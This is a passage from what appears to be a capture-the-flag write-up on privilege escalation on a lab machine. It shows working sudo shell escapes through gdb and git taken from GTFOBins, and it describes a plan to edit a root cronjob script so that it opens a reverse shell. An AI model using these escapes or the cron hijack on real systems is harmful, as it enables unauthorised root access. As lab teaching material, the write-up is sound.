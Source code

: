 ```sh
(remote) www-data@ubuntu-xenial:/home/thirtytwo$ sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```

The user www-data can run a command with the user thirtytwo. 
Now lets have a look into the gdb file witch i can run as user. 
gtfobins give me this. 

```sh
sudo gdb -nx -ex '!sh' -ex quit
```

I try to run the command with the user thirtytwo:

```sh
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

After running this command i'm the user Thirtytwo. 

Check again with sudo -l i can run "git" as sudo without a password. 
Checked again GTFOBins for some Sudo commands for git. 

```sh
(remote) thirtytwo@ubuntu-xenial:/home/thirtytwo$ sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```

Will try this command:
```sh
sudo -u d4rckh /usr/bin/git -p help config
!/bin/sh
```

now i am the user d4rckh. 
In the home directory there is the "user.flag" file
user flag: 0#############################f

Now i can got for the Root user. 

## Getting Root-Access

Checked the user directory and found the file cleanup.py. 
After some enumerating, i found out that the file is running every 2 minutes as a cronjob with the user root. 

I decided to change the file, that a reverse shell will open to my client. 
